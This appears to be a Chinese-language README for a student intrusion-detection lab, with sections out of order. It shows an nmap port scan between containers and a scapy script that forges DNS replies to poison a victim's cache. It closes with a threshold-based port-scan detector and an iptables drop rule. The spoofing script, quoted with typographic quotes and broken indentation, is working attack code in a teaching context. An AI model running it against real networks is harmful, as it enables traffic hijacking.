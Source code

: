 ### 1.4 端口扫描
#### 相关容器：

* 攻击者容器A
    * IP：`10.9.0.1`
* 服务器容器B
    * IP：`10.9.0.5`

#### 攻击步骤：

在容器A上安装nmap程序，再从容器A通过nmap命令

```shell
nmap 10.9.0.1 -p1-200
```

实现从容器A扫描容器B的1到200端口。

### 1.2 DNS Poisoning

#### 相关容器：

* 攻击者容器A
    * IP：`10.9.0.1`
* 服务器容器B
    * IP：`10.9.0.5`
* 本地DNS
    * IP：`10.9.0.11`
####攻击步骤：
在容器A运行DNS Poisoning攻击程序，代码如下：

```python
#!/usr/bin/env python3 
from scapy.all import * 

def spoof_dns(pkt): 
      if (DNS in pkt and ’www.example.com’ in pkt[DNS].qd.qname.decode(’utf-8’)): 
      IPpkt = IP(dst=pkt[IP].src, src=pkt[IP].dst) 
      UDPpkt = UDP(dport=pkt[UDP].sport, sport=53) 
      Anssec = DNSRR(rrname=pkt[DNS].qd.qname, type=’A’, ttl=259200, rdata=’10.0.2.5’) 
      DNSpkt = DNS(id=pkt[DNS].id, qd=pkt[DNS].qd, aa=1, rd=0, qr=1, qdcount=1, ancount=1, an=Anssec) 
      spoofpkt = IPpkt/UDPpkt/DNSpkt 
      send(spoofpkt) 

f = ’udp and dst port 53’ 
pkt = sniff(iface=’br-43d947d991eb’, filter=f, prn=spoof_dns) 
```

当容器B运行dig指令

```shell
dig www.example.com
```

向DNS服务器申请www.example.com的IP时会被容器A监听并将错误IP返回给容器B污染容器B的DNS缓存，从而当容器B访问www.example.com时会直接跳转到错误的IP 10.0.2.5。

### 2.2 IDS框架

![Image text](/struct.png)

### 2.6 基于统计的扫描检测与防御

主要函数为`Statistic`以及`Port_Scan_Protect`

通过分析构造出来的端口扫描报文可以看出，端口扫描攻击往往都是同一个IP向受害者IP的不同端口发送TCP报文从而达到攻击效果。

因此，为了检测端口扫描，我们首先构造字典`IP_port`，在其中每个IP映射一个列表，列表中存放该IP向本机发送报文的目的端口。当某个IP对应列表的数量超过阈值100时，即判断该IP在向本机进行端口扫描，进而发出警报。
若为在线检测，则配置防火墙，对来自该IP的报文进行拦截，配置防火墙命令如下：

```shell
iptables -A INPUT -s src_IP -j DROP
```
